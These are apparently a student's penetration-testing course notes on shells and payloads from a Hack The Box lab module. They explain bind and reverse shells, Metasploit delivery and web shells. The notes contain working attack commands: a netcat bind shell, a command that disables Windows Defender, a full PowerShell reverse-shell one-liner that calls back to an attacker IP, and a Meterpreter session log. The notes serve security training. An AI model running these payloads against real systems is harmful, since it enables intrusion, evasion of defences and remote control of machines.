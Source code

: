 ## [[generic-methodologies-and-resources/CPTS/6-Shells & Payloads/Introduction|Introduction]]
## Shell Basics
### Anatomy of a Shell
Every operating system has a shell, and to interact with it, we must use an application known as a `terminal emulator` ([Windows Terminal](https://github.com/microsoft/terminal),[cmder](https://cmder.app),[xterm](https://invisible-island.net/xterm/)..)
a **Command Language Interpreters**  is a program working to interpret the instructions provided by the user and issue the tasks to the operating system for processing, to view what shell language is in use `env | grep $SHELL` (SHELL=/usr/bin/zsh)
### Bind Shells
With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).
![bind shell](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

**Hands-on With A Simple BInd Shell in Linux:**
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f  # Server - Binding a Bash shell to the TCP session

nc -nv 10.129.41.200 7777 # Client - Connecting to bind shell on target
```
### Reverse Shells
With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.
![reverse_shell](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)
**Hands-on With A Simple Reverse Shell in Windows:**
==first we need to disable the windows defender antivirus (AV)==
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true # run in administrative powersehll console
```

```powershell
#  Client (target)
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

#  Server (attack box)
sudo nc -lvnp 443
```
## Payloads
the payload is the command and/or code that exploits the vulnerability in an OS and/or application
### Automating Payloads & Delivery with Metasploit

```bash
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```
> from the logged info we can see that **powershell** is the command language interpreter is used to establish a system shell session with the target
### Crafting Payloads with MSFvenom
=> check [[msfvenom|here]]
## Windows Shells
check =>  [[Windows Shells]] 
## Infiltrating Unix/Linux
When considering how we will establish a shell session on a Unix/Linux system, we will benefit from considering the following:
- What distribution of Linux is the system running?
- What shell & programming languages exist on the system?
- What function is the system serving for the network environment it is on?
- What application is the system hosting?
- Are there any known vulnerabilities?
check => [[linux| NIX Shells]]
##  Web Shells

A `web shell` is a browser-based shell session we can use to interact with the underlying operating system of a web server
 see more =>  [[web shells| Web Shells]]
 ## [[Detection & Prevention]]